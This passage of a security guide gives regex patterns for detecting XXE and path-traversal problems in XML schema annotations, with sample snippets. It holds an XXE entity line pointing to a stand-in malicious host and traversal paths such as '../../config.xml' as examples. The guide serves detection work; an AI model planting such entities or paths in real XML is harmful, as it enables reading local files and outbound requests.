 ```xml
<!ENTITY xxe SYSTEM "http://malicious.com/evil.dtd">
```

**Security Impact**:  
XXE vulnerabilities can allow an attacker to read local files or initiate outbound network requests.

---

## 22. Path Traversal

**Issue**  
If file paths are included in annotations or schema references without proper sanitization, they may be manipulated for path traversal.

**Sample Regex Patterns**

### 22A. Detect directory traversal patterns in documentation

```regex
<xs:documentation>[\s\S]*(\.\.\/|\.\.\\)[\s\S]*</xs:documentation>
```

- **Explanation**  
    This regex searches for “../” or “..\” sequences in annotation text.

#### Example Code Snippet That Matches

```xml
<xs:annotation>
  <xs:documentation>Load file from ../../config.xml</xs:documentation>
</xs:annotation>
```

**Security Impact**:  
Path traversal can permit attackers to access files outside the intended directory.

---

## 23. Directory Traversal

**Issue**  
Repeated parent directory references in schema documentation may indicate directory traversal vulnerabilities.

**Sample Regex Patterns**

### 23A. Detect multiple parent directory references

```regex
<xs:documentation>[\s\S]*(\.\.\/){2,}[\s\S]*</xs:documentation>
```

- **Explanation**  
    This regex flags annotations with two or more consecutive “../” patterns.
